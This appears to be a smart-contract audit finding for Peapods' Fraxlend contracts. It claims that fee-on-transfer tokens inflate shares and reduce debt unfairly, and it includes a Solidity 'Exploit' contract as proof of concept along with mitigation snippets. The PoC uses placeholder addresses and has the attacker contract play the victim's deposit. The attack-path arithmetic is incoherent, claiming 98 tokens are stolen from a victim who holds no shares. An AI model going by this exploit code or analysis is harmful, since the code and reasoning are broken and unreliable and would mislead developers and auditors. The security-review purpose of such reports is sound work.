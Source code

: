 Muscular Peanut Iguana

High

# Critical Accounting Error Due to Fee-on-Transfer Token Handling

### Summary

Fraxlend’s deposit() and repayAsset() functions do not account for ERC-20 tokens with transfer fees, leading to inflated shares and undercollateralized loans. Attackers can exploit this to drain protocol assets or evade debt repayment.

**Missing Balance Checks:**

https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/fraxlend/src/contracts/FraxlendPairCore.sol#L578-L610
**Issue:** The code mints shares based on _amount, not the actual received tokens.

**Same Issue in repayAsset():**
https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/fraxlend/src/contracts/FraxlendPairCore.sol#L1023-L1052
**Issue:** Debt is reduced by _amountToRepay, ignoring transfer fees.

### Root Cause

**Lack of Balance Checks:**
Functions like deposit() and repayAsset() calculate shares/debt based on the sent amount (_amount), not the received amount after fees.

**Assumption of Standard ERC-20 Compliance:**
The protocol assumes all tokens have no transfer fees, violating ERC-20’s optional fee flexibility.

### Internal Pre-conditions

Protocol allows fee-on-transfer tokens (not explicitly blacklisted).

Users can deposit/repay with arbitrary ERC-20 tokens.

### External Pre-conditions

Attacker uses a token with transfer fees (e.g., STA).

### Attack Path

**Seed the Pool:** 
A victim deposits 100 tokens (no fee), creating a baseline of 100 assets and 100 shares.

**Attacker Deposits:** 
Deposits 100 tokens (2% fee → 98 received).
 Total assets = 198, shares = 200.

**Redeem Shares:** 
Attacker redeems 200 shares → 198 tokens (98 stolen from victim).

### Impact

1. Protocol Insolvency: Attackers drain liquidity by exploiting inflated shares.

2. Debt Evasion: Borrowers repay less than owed, leaving loans undercollateralized.

### PoC

```solidity
// Exploit: Steal funds via fee-on-transfer token deposits
contract Exploit {
    IERC20 feeToken = IERC20(0xSTA...); // Token with 2% fee
    FraxlendPair pair = FraxlendPair(0x...);

    function attack() external {
        // Step 1: Seed the pool with initial liquidity (e.g., from a victim)
        feeToken.transfer(address(pair), 100e18);
        pair.deposit(100e18, address(this)); // Victim deposits 100 tokens

        // Step 2: Attacker deposits 100 tokens (protocol receives 98)
        feeToken.approve(address(pair), 100e18);
        pair.deposit(100e18, address(this)); // Mints shares for 100 tokens

        // Step 3: Redeem all shares (198 tokens total)
        pair.redeem(pair.balanceOf(address(this)), address(this), address(this));
    }
}
```

### Mitigation

1. Track Received Tokens:
```solidity
function _deposit(...) internal {
    uint256 balanceBefore = assetContract.balanceOf(address(this));
    assetContract.safeTransferFrom(msg.sender, address(this), _amount);
    uint256 received = assetContract.balanceOf(address(this)) - balanceBefore;
    _sharesReceived = _totalAsset.toShares(received, false);
}
```
2. Whitelist Compliant Tokens:
Use a factory pattern to deploy pairs only for tokens without fees.

3. Add Fee Detection:
```solidity
function isFeeOnTransfer(address token) external returns (bool) {
    uint256 balanceBefore = IERC20(token).balanceOf(address(this));
    IERC20(token).safeTransferFrom(msg.sender, address(this), 1e18);
    uint256 balanceAfter = IERC20(token).balanceOf(address(this));
    return (balanceAfter - balanceBefore) < 1e18;
}
```